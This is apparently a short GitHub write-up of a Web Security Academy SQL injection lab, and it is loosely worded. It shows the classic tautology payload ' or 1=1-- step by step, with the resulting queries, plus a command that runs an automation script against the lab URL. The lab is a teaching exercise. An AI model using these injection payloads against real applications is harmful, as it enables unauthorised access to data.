





# SQLi-Lab-01
This is 
# Solve Lab-01
display all products both released and unreleased.
 

Query --> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1 `
 

1- The first step set `'` after value of parameter category -->  `?category='`
 

 

1.1- Will appear an error `SELECT * FROM products WHERE category = ''' AND released = 1`.
 

 

2- Step two set of after value of parameter category  `?category=' --`
 

 

2.1- The error disappear `SELECT * FROM products WHERE category = ''--' AND released = 1`.
 

 

5- finally to solve this lab `' or 1=1--`.
 

 

5.1- finally Query `SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1`.

# Automation sove.
using the script python. `python3 https://0aa500220344ec58c0b8081900eb003c.web-security-academy.net "' or 1=1 --"`

 

Will appear this `[+] SQLi successful!` when successfully injection.
 

OR `[-] SQLi Falied`. when falied injection.